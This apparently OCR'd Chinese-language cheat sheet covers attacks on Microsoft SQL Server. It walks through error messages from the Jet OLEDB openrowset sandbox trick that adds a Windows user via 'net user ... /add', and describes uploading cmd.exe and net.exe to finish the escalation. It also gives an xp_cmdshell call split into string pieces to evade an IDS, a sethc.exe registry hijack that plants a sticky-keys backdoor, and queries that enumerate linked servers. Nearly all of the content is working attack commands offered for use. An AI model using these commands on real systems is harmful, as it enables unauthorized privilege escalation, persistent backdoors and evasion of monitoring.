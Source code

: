 

1、如果沙盒保护模式未“关闭”，会报错：
  	服务器: 消息 7357，级别 16，状态 2，行 1
  	未能处理对象 'select shell("cmd.exe /c net user user passwd /add")'。OLE DB 提供程序'microsoft.jet.oledb.4.0' 指出该对象中没有任何列。
  	OLE DB 错误跟踪［Non-interface error: OLE DB provider unable to process object, since the object has nocolumnsProviderName='microsoft.jet.oledb.4.0', Query=select shell("cmd.exe /c net user user passwd /add")'］。

2、如果.mdb不存在或是输入路径错误
   	服务器: 消息 7399，级别 16，状态 1，行 1
    	OLE DB 提供程序 'microsoft.jet.oledb.4.0' 报错。
    	[OLE/DB provider returned message: 找不到文件 'C:\WINDOWS\system32\ias\dnary1.mdb'。]
   	OLE DB 错误跟踪［OLE/DB Provider 'microsoft.jet.oledb.4.0' IDBInitialize::Initialize returned 0x80004005: ］。

3、如果输入过程中多了一些空格，也会报错。尤其要注意这点，很多人直接网上找文章复制粘贴进去执行。
  	服务器: 消息 7357，级别 16，状态 2，行 1
  	未能处理对象 'select shell("cmd.exe /c net user user passwd /add")'。OLE DB 提供程序'microsoft.jet.oledb.4.0' 指出该对象中没有任何列。
  	OLE DB 错误跟踪［Non-interface error: OLE DB provider unable to process object, since the object has nocolumnsProviderName='microsoft.jet.oledb.4.0', Query=select shell("cmd.exe /c net user user passwd /add")'］。

4、如果mdb权限和cmd.exe权限不对，同样会也出现问题。
  	当mdb权限不对时，
   	服务器: 消息 7320，级别 16，状态 2，行 1
  	未能对 OLE DB 提供程序 'Microsoft.Jet.OLEDB.4.0' 执行查询。
   	[OLE/DB provider returned message: 未知]
   	OLE DB 错误跟踪［OLE/DB Provider 'Microsoft.Jet.OLEDB.4.0' ICommandText::Execute returned 0x80040e14］。

5、如果net权限不对时，却没有任何提示。
  	最终的提权办法就是在当前的web目录下面上传系统的ias.mdb和cmd.exe，net.exe三个文件。
  	执行select * from openrowset('microsoft.jet.oledb.4.0',';database=E:\web\ias.mdb','select shell("E:\web\cmd.exe /c E:\web\net.exe user user passwd /add")')
  	成功增加一个计算机用户。
 	 
 	 
 	 
拆分cmdshell绕过IDS	 
declare @a sysname set @a='xp_'+'cmdshell' exec @a 'ipconfig'
declare @a sysname set @a='xp'+'_cm'+'dshell' exec @a 'dir c:\'


编辑注册表劫持shift
exec master..xp_regwrite 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe','debugger','REG_sz','c:\windows\system32\cmd.exe on';--

查询linkserver
select srvid,srvstatus,srvname,srvproduct,providername,datasource,location,schemadate,catalog,srvnetname,isremote,rpc,dataaccess from master.dbo.sysservers
select srvid,srvstatus,srvname,srvproduct,providername,datasource,location,schemadate,catalog,srvnetname,isremote,rpc,dataaccess from master.dbo.sysservers

查询linkserver2
select distinct hostname,db_name(dbid),net_address,loginame,program_name from master..sysprocesses
